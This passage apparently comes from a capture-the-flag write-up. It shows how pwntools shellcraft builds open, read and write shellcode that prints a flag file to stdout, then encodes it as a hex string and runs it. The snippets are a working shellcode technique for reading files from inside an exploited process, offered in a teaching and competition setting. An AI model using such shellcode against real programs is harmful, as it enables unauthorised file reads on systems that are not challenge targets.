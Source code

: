 
shellcraft.open() is useful for opening files

{{< highlight py >}}
shellcraft.open('/flagggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggg.txt')
{{< /highlight >}}


**shellcraft.read(fd, buffer, size)**: Adds shellcode to read data from a previously opened file.

{{< highlight py >}}
shellcraft.read('rax', 'rsp', 100)
{{< /highlight >}}


The '**rax**' argument refers to the register that stores the file descriptor of the opened file.  
'**rsp**' is the stack address where the read data will be copied.  
**100** is the number of bytes to be read (in this case, the first 100 bytes of the flag file).

shellcraft.write(fd, buffer, size): Added shellcode to write the read data to file descriptor 1 (stdout).

{{< highlight py >}}
shellcraft.write(1, 'rsp', 100)
{{< /highlight >}}


'**rsp**' is the stack address containing the data just read (from the flags file).  
**100** is the number of bytes to be written to stdout (prints the flag).

{{< highlight py >}}
hex_shellcode = ''.join(f'\\x{byte:02x}' for byte in compiled_shellcode)
{{< /highlight >}}


Then the hex\_shellcode variable is useful for converting our shellcode into hex form with the format (\\x00)

Finally, just run the code.  

![](image33.png)
